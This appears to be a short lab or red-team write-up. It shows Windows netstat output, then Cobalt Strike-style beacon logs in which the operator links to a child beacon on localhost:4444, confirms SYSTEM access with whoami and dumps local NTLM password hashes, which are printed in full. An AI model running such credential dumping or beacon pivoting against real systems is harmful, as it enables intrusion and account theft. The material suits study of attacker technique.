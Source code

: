 ```powershell
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49670          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49671          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:61832          0.0.0.0:0              LISTENING
  TCP    10.10.123.102:139      0.0.0.0:0              LISTENING
  TCP    10.10.123.102:3389     10.10.255.244:47190    ESTABLISHED
  TCP    10.10.123.102:61767    10.10.120.100:8220     ESTABLISHED
  TCP    10.10.123.102:61801    10.10.120.100:9200     ESTABLISHED
  TCP    10.10.123.102:61805    10.10.120.100:9200     ESTABLISHED
  TCP    10.10.123.102:61989    10.10.122.254:3128     CLOSE_WAIT
  TCP    10.10.123.102:62082    10.10.120.30:80        ESTABLISHED
  TCP    10.10.123.102:62410    10.10.122.254:3128     ESTABLISHED
  TCP    10.10.123.102:62420    10.10.120.100:9200     TIME_WAIT
  TCP    10.10.123.102:62469    10.10.120.100:9200     ESTABLISHED
																																  TCP    127.0.0.1:4444         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:6788         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:6789         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:6789         127.0.0.1:61766        ESTABLISHED
  TCP    127.0.0.1:6789         127.0.0.1:61799        ESTABLISHED
  TCP    127.0.0.1:6789         127.0.0.1:61800        ESTABLISHED
  TCP    127.0.0.1:61766        127.0.0.1:6789         ESTABLISHED
  TCP    127.0.0.1:61799        127.0.0.1:6789         ESTABLISHED
  TCP    127.0.0.1:61800        127.0.0.1:6789         ESTABLISHED
  TCP    127.0.0.1:62045        0.0.0.0:0              LISTENING
```
quickly `connect localhost 4444`
*the service is able to connect then dies*
```powershell
[11/07 19:40:08] beacon> connect localhost 4444
[11/07 19:40:08] [*] Tasked to connect to localhost:4444
[11/07 19:40:15] [+] host called home, sent: 20 bytes
[11/07 19:40:15] [+] established link to child beacon: 10.10.123.102
[11/07 19:40:35] [-] lost link to child beacon: 10.10.123.102
[11/07 19:40:35] [+] received output:
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```
quickly ran `whoami` & `hashdump` before losing link.
```powershell
[11/07 19:39:13] beacon> shell whoami
[11/07 19:39:13] [*] Tasked beacon to run: whoami
[11/07 19:39:13] [+] host called home, sent: 37 bytes
[11/07 19:39:13] [+] received output:
nt authority\system
```

```powershell
[11/07 19:40:22] beacon> hashdump
[11/07 19:40:22] [*] Tasked beacon to dump hashes
[11/07 19:40:22] [+] host called home, sent: 83262 bytes
[11/07 19:40:24] [+] received password hashes:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
LapsAdmin:1001:aad3b435b51404eeaad3b435b51404ee:cd984ea98ca4ac9593de417bb68aa3a7:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:8710fb3e12ffb120dfee7b68eac878d2:::

[11/07 19:40:35] [-] lost link to parent beacon: 10.10.123.102
```